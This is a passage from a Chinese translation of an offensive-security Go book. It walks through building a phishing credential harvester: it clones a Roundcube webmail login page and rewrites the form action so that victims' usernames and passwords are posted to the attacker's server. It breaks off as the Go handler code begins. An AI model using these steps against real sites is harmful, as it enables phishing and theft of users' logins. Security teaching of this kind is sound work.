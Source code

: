 关于模板多说一些。可以使用逻辑运算符;可以与循环和其他控制结构一起使用。可以调用内置函数，甚至能定义和暴露出任意的函数能大大地扩展模板功能。Double neat-o! 最好能深入研究这些可行性。已经超出了本书的内容，但真的很强大。

如何摆脱创建服务器和处理请求的基础知识，而是专注于更邪恶的事情。让我们来创建一个凭据收割机吧！

## 凭据收割机

社会工程的主要内容之一是`credential-harvesting attack`。这种类型的攻击通过钓鱼的方式收集用户在某个网站的登录信息。这种攻击对于网上使用单个身份验证接口的组织非常有用。一旦获取到用户的凭证，就能登录到原网站访问其账户。这通常会导致该组织的外围网络遭到初步破坏。

对于这种类型的攻击，Go是非常棒的平台，因为能快速创建服务，因为非常容易地配置路由来解析用户的输入。可以向凭证收集服务添加更多的定制功能。但是本例，我们仍然学习基础。

首先，需要克隆具有登录表单的站点。这有很多的方法。实际上，更望克隆正在使用的站点。不过，本例克隆Roundcube站点。`Roundcube`是个开源的web邮件客户端，不像商业软件那样常用，例如Microsoft Exchange，但是幸好也能让我们阐明这些概念。使用Docker 来运行 Roundcube，因为会更简单些。

执行下面的命令就能启动自己的Roundcube服务。如果不想运行Roundcube服务也不要担心，实战源代码也有一个站点的克隆。不过，为了完整起见，我们还是加上了这个:
```shell
$ docker run --rm -it -p 127.0.0.180:80 robbertkl/roundcube
```
该命令启动了一个Roundcube的Docker实例。如果浏览http://127.0.0.1:80的话，会看到一个登录表单。通常情况下，用`wget`克隆一个站点和所有该站点所需要的文件，但是Roundcube使用的是JavaScript，可以防止这种情况发生。但是，可以使用Google Chrome来保存。在实战目录下，会看到一个文件夹的结构如代码4-7所示：
```shell
$ tree
.
+-- main.go
+-- public
    +-- index.html
    +-- index_files
        +-- app.js
        +-- common.js
        +-- jquery-ui-1.10.4.custom.css
        +-- jquery-ui-1.10.4.custom.min.js
        +-- jquery.min.js
        +-- jstz.min.js
        +-- roundcube_logo.png
        +-- styles.css
        +-- ui.js
    index.html
```
代码 4-7: https://github.com/blackhat-go/bhg/ch-4/credential_harvester/ 文件夹结构

`public`目录中的文件表示未更改的克隆登录站点。需要修改原始的登录表单来重定向输入的凭证，将它们发送给自己的服务而不是之前那个合法的服务。开始，打开`public/index.html`并找到使用POST发送登录请求的表单元素。应该看起来像下面这样：
```html
<form name="form" method="post" action="http://127.0.0.1/?_task=login">
```
需要将标签为`action`的属性更改为自己的服务地址。将`action`改为`/login`并保存。现在该行看起来像下面这样：
```html
<form name="form" method="post" action="/login">
```

首先需要提供`public`目录中的文件，才能正确的渲染登录表单和捕获username和password。然后需要为`/login`写个`HandleFunc`来捕获username和password。还希望将捕获的凭证存储在文件中，并进行详细的日志记录。

只需几十行代码就可以处理所有的这些问题。代码4-8是该程序的完整代码。
```go
package main

import (
	"net/http"
	"os"
	"time"

	log "github.com/Sirupsen/logrus"
	"github.com/gorilla/mux"
)

func login(w http.ResponseWriter, r *http.Request) {
```